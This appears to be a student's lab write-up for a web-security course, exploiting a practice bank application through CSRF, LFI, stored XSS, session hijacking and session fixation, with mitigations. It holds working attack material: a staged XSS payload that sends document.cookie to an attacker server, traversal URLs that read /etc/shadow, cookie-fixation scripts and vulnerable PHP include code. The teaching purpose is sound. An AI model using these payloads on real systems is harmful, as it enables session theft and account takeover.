



Web Application Vulnerabilities -2

### Exercise 1: Cross Site Request Forgery (CSRF/XSRF)

#### Task 1
__Q__ 1. Briefly explain what CSRF/XSRF is in your own words (outline the roles and steps involved in XSRF attack).

__Solution__

- Cross-site-request-forgery (CSRF)- is an attack where the malicious website exploits trust between the web browser and the authenticated user's website which is vulnerable
- Unauthorized requests or commands are run on behalf of victim on the vulnerable website
-  Assume a vulnerable website that allows to run commands(like funds transfer), containing a url for that funds transfer. So when the user hits `transfer funds` with appropriate parameters, request gets executed succussfully

- Steps invloved:
    - Setup a malcious website
    - Create a script or source(like, `img` tags, `iframe`) that executes the request to transfer funds.
    - Allow the  authenticated victim to access the malicous website
    - Send the fund transfer request . (Since the victim is authenticated and the URL/script is crafted to transfer funds, cookies stored on victim's broswer also be sent)
    - Request gets sent on behalf of malicous users so the  request procesess successfully.


#### Task 2

__Q: What is the difference between XSS and CSRF/XSRF from their execution perspective?__  
__Solution:__ If a website is vulnerable to stored XSS, execution of commands on behalf of victim is easy and does'nt require to setup a malicous website. In case of Cross-site request forgery,, the excution requires, the authentication victim from vulnerable website to visit the malicouis website setup by the attacker in order to execute the commands/requests.


#### Task 3

__Q: Briefly explain why your bank is theoretically vulnerable to CSRF/XSRF attack!__  
__Solution:__ After examining the web request, on `Transfer Funds` page , the website doesn't seem to send  any unique identifier or tokens , that identify the request as being originated from the same domain, or performed by the actual user.


#### Task 4

__Assume that you are a valid customer of your bank. Show how you can use XSRF
to transfer money from another account to your account.__


#### Task 5.


### Exercise 2: Server-Side Request Forgery(SSRF)

__1. Briefly explain in your own words what is SSRF vulnerability and common SSRF attacks and what are the common SSRF defences circumventing__

__Solution__ SSRF(Server side request forgery) is a web server vulnerability where an attacker tricks the sever to execute a request. with a specially crafted request, one can control the server to request a URL, usually crafted with a publicly accessible URL, thus giving the partial or full control on server requests.

__2. What is the difference between SSRF and CSRF/XSRF from their execution
perspective?__

__Solution:__ CSRF targets the user, to trick or executes malicious links/requests,and send it to server on behalf of them, where as SSRF invloves specifically targeting the server, that is vulnerable in handling user requests. Although in both cases, its the server that is vulnerable, the victim is different in CSRF and SSRF attacks.  


### Exercise 3: Local File Inclusion (LFI)

__1. Briefly explain what is a Local File Inclusion (LFI) vulnerability? By using a simple
example, describe how do LFIs work and how to avoid this vulnerability? Show
a vulnerable code and apply your patch to it.__
__Solution:__  Local File Inclusion (LFI) ia web vulnerability, where an attacker tricks the web application to dynamically load files from from the web server that are available locally.

*Example:* When an application receives an unsantitized user input,  and processed, which exposes local files because of the input that directly constructs the file path, which is included in response

sample vulnerable code

```php

    echo "File included: ".$_REQUEST["page"]."<br>";
    echo "<br><br>";
    $local_file = $_REQUEST["page"];
    echo "Local file to be used: ". $local_file;
    echo "<br><br>"
    include $local_file;

```

How it works:

- The application uses file path as an input
- user input is treated as trusted and safe
- A local file can be inlcuded as a result of user specified input to the file include
- Application returns the file contnets as response


**Avoiding the Vulnerability**
    - Common and effective solution is to avoid allowing user submitted input to the application API.
    - An application can also have allowed list of files to include (whitelisting fioles and directories that can be included), any other input or file names can be rejected.


- **Fix: Whitelisting file**
    ```php
     $allowed_files = array('index','transfer', 'accounts'); //list of files that are allowed to be included 
     $local_file = $_REQUEST["page"];
     if(in_array($_GET['file'], $allowed_files)) { //check if the requested file is in allowed array list
        include ($_GET['file']. '.php')
    }
    ```

    > It is also best, that none of the  allowedd_files can be modified by attacker, epecially with file uploads where the attacker has control over file names


__2. How do you identify and exploit LFI? Describe it with a simple example.__

- Look for page includes or file names as URL parameters like'
    ```php
         http://www.vbank.com/file.php?file=transfer.php 
    ```
- change file by changing the file inlcude or file path URL
- Traverse through directory to look for local files and observe the  response from the application
 
- example..
    ```javascript
        http://www.vbank.com/file.php?file=../etc/shadow  //does'nt work
    ```

    ```javascript
        http://www.vbank.com/file.php?file=../../etc/shadow // does'nt work
    ```
    ```javascript
        http://www.vbank.com/file.php?file=../../../etc/shadow // shows the shadow file
    ```
- If the file path is true and the application does;nt filter and file is availbale in local to the server, contents can be displayed on the browser as a response
- The lack of input validation and filtering for files allow to read aribitary file contents.


__3. Briefly explain what is Remote File Inclusion (RFI) and how can you minimise the risk of RFI attacks? And LFI vs. RFI?__  
__Solution:__  
- Remote File Inclusion (RFI) web vulnerability where user editable input is used to include other files in execution flow of the application script.
- If that input is not sanitized, that can lead to arbitary files being inlcuded by the attacker.
- In PHP, `include`,`include_once`, `require`, `require_once` lead to such vulnerabilities.
- Typical Vulnerable code.

    ```php
        echo "File included is :". $_REQUEST["file"]."<br>";
        echo "<br><br>";
        include $_REQUEST["file"];
    ```

- **LFI Vs RFI**
    - Every RFI is a LFI, the only difference is that in RFI, the attacker can supply his own file to the target application and execute whereas, in LFI, user supplied file/input is limited to the application server local.

- For RFI to work, `allow_url_include` must be turned `On` in PHP configuration (located in `php.ini`). This can be turned `Off` to minimize the risk of fetching remote files. Usially on default installation this is turned `Off`.
- Another way to minize the risk, is to whitelist files and directories, and sanitize user supplied input just like remote File Inclusion.


### Exercise 4: Session Hijacking


__1. Install a webserver on your machine. Use it to write a script that will read the
information required to hijack a session. Briefly describe your script.__
__Solution:__ 
    - Installed Python  and run the webserver module
```bash
    $ python3 -m http.server
        Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
```  
- Initiate multiple funds transfer with following remarks
> Multiple transfers are required as the remarks input is limited to 100 characters after encoding the contnets in it. For that reason, **payload is staged**.
- Remarks in transfer 1:
```javascript
<script>var c=document.cookie;</script>
```
- Remarks in transfer 2:
```javascript
<script>const Http = new XMLHttpRequest();</script>
```
- Remarks in transfer 3:
```javascript
<script>const u='http://192.168.37.128:8000/'+x;</script>
```
- Remarks in ransfer 4:
```javascript
<script>Http.open("GET", url);Http.send();</script>
```
- The above scripts is an ajax call to attacker server running on `192.168.37.128:8000`, that sends the cookie value `c`
    The above remarks make up the following
    ```javascript
    <script>
        var c=document.cookie;  //store cookie in variable c
        const Http = new XMLHttpRequest();
        var u='http://192.168.37.128:8000/'+x; // aoppend cookie value to url
        Http.open("GET", url);
        Http.send();
    </script>
    ```

- The request for the above script can be seen in attacker's server logs
    ```bash
        └─$ python3 -m http.server
            Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
            192.168.37.128 - - [08/May/2021 09:05:16] "GET / HTTP/1.1" 200 -
            192.168.37.128 - - [08/May/2021 09:05:16] code 404, message File not found
            192.168.37.128 - - [08/May/2021 09:05:16] "GET /USECURITYID=v155sm5645ckoddmdpepcubbc4 HTTP/1.1" 404 -
    ```
- From the logs we can observe the request contents `USECURITYID=v155sm5645ckoddmdpepcubbc4` which we know that , is a cookie value.


__2. Use the implementation from the last step to hijack the session of a customer of your bank. Briefly describe the steps to perform this attack.__
__solution:__

- Copy the `USECURITYID=v155sm5645ckoddmdpepcubbc4` that is captured on the server log
- Install `EditThisCookie` extension from chrome https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg/related?hl=en
- Open the login page of the application in private window 
- Past the cookie  value, into the `Value` field.

- Click on Green tick below the window
- Reload the page
- Should be logged in as user
- **Result**


    


__3. Which possible implementation mistakes enable your attack?__
__Solution :__
1. Application is vulnerable to XSS(unsanitized user input at `Remarks` field), thus leveraging it to steal cookies.
2. Cross domain requests are possible(allowing it to send request to attacker's site), no `Same-Origin-Policy` is implemented.
3. No `HttpOnly` flag, as this tells the browser not to display access cookies through client side scripts


__4. How would https influence it?__
__Solution:__ `https` has no significant influence in this case, as the attacker can still access the cookie(as it is stored un-encrypted) and send it over to attacker's server. However this would be beneficial if the attacker is in same network as user and  try to steal cookies,as  the data is sent encrypted. 
> If cookies are sent in headers `secure` flag should be set, to indicate the browser that cookie can only be sent in `https` requests.

__5. Implement some precautions which can prevent or mitigate this attack?__
__Solution:__
1. Sanitize user input to avaoiud any injection into the application.
2. set `Http Only` flag to avoid cookies being accessed  by client side scripts
3. use `https` connections
4. Implement `Same Origin Policy`, as it can prevent sending sending request  other domains.


### Exercise 5: Session Fixation

__1. Explain the difference to Session Hijacking.__
__Solution :__ In Session Fixation, the attacker forces the user to use the session of his choice, where in   Session Hijacking , the logged in user session is hijacked.

__2. Sketch an attack that allows you to take over the session of a bank user.__
__Solution :__
- Found two approches in hijacking a session using session fixation.
1. Manual way, setting the broswer cookie to dewsired value with key being `USECURITYID` (assuming that attacker has physical access to victim's browser)
2. Stored XSS(on `Funds Transfer` page) attack to set the cookie value.

**Approach 1**
- **step 1**: Open `EditThiCookie` extension and click on import.
- **step 2:** Use the following payload to set the cookie value
```javascript
[
{
    "domain": "192.168.37.128", //domain name or IP
    "expirationDate": 1621190036.198929,
    "hostOnly": true,
    "httpOnly": false,
    "name": "USECURITYID",
    "path": "/",
    "sameSite": "unspecified",
    "secure": false,
    "session": false,
    "storeId": "0",
    "value": "abcdefghi",  //fixed value for name 'USECURITYID'
    "id": 1
}
]
```
 
 
-  Allow the user to log in 
***Before Log in***


***After Log in*** Same cookie value exists.


 - **step 3**: In another browser use the same cookie values to import it to `EditThisCookie` extension
- **step 4** Reload the page.

 **Result** : Session successfully hijacked using the fixed cookie value


 


 **Approach 2**
- Using stored XSS to set the cookie
    - **step 1** Initiate funds transfer to the victim
    - **step 2** use the following payload in `remarks` field and click on transfer
        ```javascript
        <script>document.cookie="USECURITYID=abcde";<script>
        ```
    
    - **step 3** allow the Victim to login and view `My Accounts`. (Opening the victim account in another browser and click on `Account Details`)
    
    - We can observe that `USECURITYID` is set twice, one after user login and another using xss.
    - As attacker without useing the log in functionality. Insert the cookie value into the browser(use `EditThisCookie` extension to import the key, value or simply add the `Name`, `value`, `Domain` fields in `Developer Tools` => `Application`,as seen in the figure.)
    - **step 4** Reload the page. and account should be logged in as Victim. Thus hiacking a logged in user session with fixed `cookie value`

**[Attacker's browser after editing the cookie value to `abcde` and reloading.]**




another approach
- setting the cookie value using HTTP header response by intercepting the traffic between web server and client's browser.

__3. How can you generally verify that an application is vulnerable to this type of attack?__
__solution:__
- Set the cookie value to random string(usually similar length or format as actual cookie value) before  logging in to the application.
- Now login to the application.
- Observe the cookie value set  after login by the application in developer tools => storage.
- If the cookie value is same as set before login and no new cookie name,values or parameters are added and the account is still logged in, then we can confirm that application is vulnerable to session fixation attack.


__4. Does https influence your attack?__
__Solution :__ `https` has No influence on carrying out the session fixation attack, as the cookie values can be set in various ways, encrypting the traffic or running the application over secure protocol has no effect.


__5. Accordingly, which countermeasure is necessary to prevent your attacks?
Patch your system and test it against Session Fixation again.__

1. initiate transfer
1a clear current cookie set expires (document.cookie = "USECURITYID=abcde; expires= Thu, 21 Aug 2014 20:00:00 UTC;"
)
2. set docikument cookie to your own value
3. inject the cookie  in attacker browser
4 attacker should now has session same as victim
<br></br><br></br><br></br><br></br><br></br>